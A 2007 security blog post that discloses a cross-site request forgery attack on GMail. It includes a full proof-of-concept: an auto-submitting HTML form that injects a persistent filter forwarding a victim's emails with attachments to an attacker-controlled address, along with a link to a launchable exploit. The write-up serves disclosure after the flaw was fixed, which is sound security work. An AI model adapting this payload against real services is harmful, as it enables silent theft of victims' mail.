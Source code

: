 ```yaml
---
title: Google GMail E-mail Hijack Technique
author: petko-d-petkov
date: Tue, 25 Sep 2007 18:50:33 GMT
template: post.jade
---
```


In this post I am going to show you how someone can remotely install a simple, persistent filter within a GMail account and download all previous as well as snoop onto all future email conversations.

The following sequence of screenshots describes how the attack works.

<div class="screen">[![GGEHT Seq1](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq1-248x150.jpg "GGEHT Seq1")](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq1.jpg) [![GGEHT Seq2](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq2-248x150.jpg "GGEHT Seq2")](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq2.jpg) [![GGEHT Seq3](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq3-248x150.jpg "GGEHT Seq3")](http://www.gnucitizen.org/static/blog/2007/09/ggeht-seq3.jpg)</div>

The victim visits a malicious page while being logged into GMail. Upon that, the page performs a `multipart/form-data` `POST` to one of the GMail alternative interfaces and injects a filter into the victim's filter list. In the example above, the attacker writes a filter, which simply looks for emails with attachments and forward them to an email of their choice. This filter will automatically transfer all emails matching the rule. Keep in mind that future emails will be forwarded as well. The attack will remain **present** for as long as the victim has the filter within their filter list, even if the initial vulnerability, which was the cause of the injection, is fixed by Google.

The technique used in this example is known as Cross-site request forgery, or simply CSRF. I am not planning to go into details how it works. Just look it up on this blog or with your favourite search engine.

I am not planning to release the details of this vulnerability for now. The exploit was verified by [Ryan Naraine](http://blogs.zdnet.com/security/) and several close friends. It does work and it is nasty if you ask me.

**UPDATE 2007/09/28**: I promised to release the POC as soon as Google fixes the vulnerability. Well they did. So, here are the details:

    <form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    	<input type="hidden" name="cf2_emc" value="true"/> 
    	<input type="hidden" name="cf2_email" value="evilinbox@mailinator.com"/> 
    	<input type="hidden" name="cf1_from" value=""/> 
    	<input type="hidden" name="cf1_to" value=""/> 
    	<input type="hidden" name="cf1_subj" value=""/> 
    	<input type="hidden" name="cf1_has" value=""/> 
    	<input type="hidden" name="cf1_hasnot" value=""/> 
    	<input type="hidden" name="cf1_attach" value="true"/> 
    	<input type="hidden" name="tfi" value=""/> 
    	<input type="hidden" name="s" value="z"/> 
    	<input type="hidden" name="irf" value="on"/> 
    	<input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
    </form> 
    <script> 
    	document.forms[0].submit();
    </script>

_The actual exploit can be launched from [here](http://www.gnucitizen.org/static/blog/2007/09/ggeht-exploit.htm). It makes use of a CSRF redirection utility to simplify the process._
